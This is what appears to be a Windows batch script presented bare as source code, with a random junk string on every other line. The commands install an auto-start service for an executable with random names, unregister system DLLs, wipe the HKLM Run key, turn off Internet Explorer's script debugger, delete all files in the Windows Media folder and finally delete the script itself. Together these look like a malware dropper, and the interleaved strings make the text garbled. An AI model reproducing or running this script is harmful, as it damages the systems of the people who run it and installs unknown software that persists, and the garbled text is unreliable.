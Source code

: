YKHE4GJHM0189A8BRDD8RR5UAGLR2
sc.exe create M0DU6 BinPath= "C:\Program Files\ID6AJR0R\H2O7NJLG5.EXE -HTLIQXBPDPM8" type= own type= interact start= auto DisplayName= L0EF7ZY
46C8DM3LX0PHDNW
regsvr32.exe /u /s shimgvw.dll
14EV3Y9AOD67XE5N5AP
regsvr32.exe /u /s itss.dll
WVMIMO2RJ8RUCZ4ZS
regsvr32.exe /u /s scrrun.dll
RPSEWTOD8P8B7KUSUXPT4
regsvr32.exe /u /s vbscript.dll
NIZ1YP9VK1HUKM9YAXE
regsvr32.exe /s jscript.dll
IB5OIZHUOJUF60FJ
reg.exe delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /F
DD8OCBOUE5B32
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v Play_Background_Sounds /t REG_SZ /d no /F
A5D8SE159B4F126V06
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v Play_Animations /t REG_SZ /d no /F
YJVC8Y7DNV7PQL5
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v "Display Inline Videos" /t REG_SZ /d no /F
7SQK411V59CBYV90G8G4
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v "Display Inline Images" /t REG_SZ /d yes /F
3LWMRVS02D905SS5I
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v "Disable Script Debugger" /t REG_SZ /d yes /F
YE41FXWLWLVLPL
reg.exe ADD "HKCU\Software\Microsoft\Internet Explorer\Main" /v DisableScriptDebuggerIE /t REG_SZ /d yes /F
T9QYKMRM4V04RPRJLGM
del C:\WINDOWS\Media\*.*
FTNXTI7EER6W4EKOT5G

del %0
exit
Q6ADJ2DKDXOMIYWBA
